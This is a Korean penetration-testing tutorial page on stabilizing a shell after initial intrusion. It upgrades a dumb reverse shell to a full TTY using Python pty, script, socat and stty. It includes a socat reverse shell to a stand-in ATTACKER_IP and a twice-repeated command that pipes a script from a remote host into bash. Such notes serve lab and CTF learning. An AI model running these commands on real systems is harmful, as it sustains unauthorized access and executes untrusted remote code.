 ```yaml
---
layout: page
title: Interactive_Shell_(shell_안정화)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


# TTY 셸 안정화 가이드

리버스 셸 등으로 시스템에 처음 접속하면, 일반적으로 기능이 매우 제한적인 'Dumb Shell' 상태가 됩니다. 이 상태에서는 `Tab` 자동 완성, 명령어 히스토리, `Ctrl+C`를 통한 프로세스 중단 등이 동작하지 않아 정상적인 작업이 어렵습니다. 

이 문서는 Dumb Shell을 완전한 기능의 TTY(Teletype) 셸로 업그레이드하는 단계별 절차를 안내합니다. 이 작업은 **초기 침투 후 가장 먼저 수행해야 할 필수 과정**입니다.

---

### **Pretty colors**
```bash
# shell stabilization (pretty colors :))
cat /etc/shells
PS1='[\[\e[31m\]\u\[\e[96m\]@\[\e[35m\]\H\[\e[0m\]:\[\e[93m\]\w\[\e[0m\]]\$ '
```

---


### **1단계: PTY Shell 생성 (기본 업그레이드)**

가장 먼저, Python(또는 다른 스크립트 언어)을 이용해 기본적인 PTY(Pseudo-Terminal)를 생성합니다. 이것만으로도 셸의 기능이 일부 개선됩니다.

```bash
# 시스템에 설치된 Python 버전에 맞게 시도
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
```

> **팁:** 만약 Python이 없다면 `script` 명령어나 다른 언어(perl, ruby)를 활용할 수 있습니다.


`script` : 보통 리눅스에 기본 설치 되어 있음.
```bash
script /dev/null -c /bin/bash
# 또는
script -qc /bin/bash /dev/null
```

`socat` : `socat`이 설치되어 있다면 가장 강력하고 안정적인 셸을 얻을 수 있음. 공격자 PC에서 리스너를 열고, 타겟 서버에서 접속하는 방식.
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
```

`기타 스크립트 언어` 
```bash
# Perl
perl -e 'exec "/bin/sh";'

# Ruby
ruby -e 'exec "/bin/sh"'
```

---


### **2단계: Shell 환경 완전 안정화 (Full TTY Stabilization)**

PTY 셸을 생성한 후, 다음 절차를 통해 로컬 터미널과 동일한 환경으로 만듭니다.

#### **[1] 셸을 백그라운드로 전환**
- 현재 PTY  Shell에서 `Ctrl+Z`를 눌러 Shell을 잠시 백그라운드로 보냅니다.

#### **[2] 로컬 터미널 환경 설정**
- 공격자(로컬) 머신에서 다음 명령어를 입력하여 터미널을 'raw' 모드로 설정하고, 백그라운드의 셸을 다시 포어그라운드로 가져옵니다.

```bash
# 현재 터미널의 특수 문자 처리를 비활성화하고(raw), 입력 문자를 화면에 바로 표시하지 않도록(-echo) 설정
stty -a
stty raw -echo; fg
```

- `fg` 명령어를 입력하고 엔터를 두 번 정도 치면, 백그라운드에 있던 원격 Shell이 다시 활성화됩니다.

#### **[3] 원격 셸 환경 변수 설정**
- 이제 원격 셸은 안정화되었지만, 터미널 크기나 종류가 제대로 설정되지 않아 화면 출력이 깨질 수 있습니다. 다음 명령어로 환경을 최종 설정합니다.

```bash
# 터미널 종류를 xterm-256color로 설정 (가장 일반적)
export TERM=xterm-256color

# 로컬 터미널과 동일한 줄(rows)과 칸(cols) 크기로 설정
stty rows 38 cols 115
```

> **팁:** 로컬 터미널의 크기는 새 터미널을 열고 `stty -a` 명령어로 확인할 수 있습니다.

```bash
curl 10.13.4.2/stab.sh | bash
```

---


### Shell 환경 개선

기본 셸(`sh`, `ash`)은 기능이 부족함. `bash`나 `zsh`가 설치되어 있는지 확인하고, 있다면 바로 실행하여 더 나은 환경에서 작업하는 것이 효율적.
```bash
# bash가 있는지 확인하고 실행
which bash && /bin/bash

# zsh가 있는지 확인하고 실행
which zsh && /bin/zsh
```

---

```bash
curl 10.13.4.2/stab.sh | bash
```

### **최종 확인**

모든 과정이 완료되면, 이제 원격 셸에서 다음과 같은 기능들이 정상적으로 동작합니다:
- **명령어 히스토리:** 위/아래 화살표 키
- **자동 완성:** `Tab` 키
- **프로세스 중단:** `Ctrl+C`
- **화면 정리:** `clear` 명령어
- **인터랙티브 프로그램 실행:** `su`, `ssh`, `vim` 등

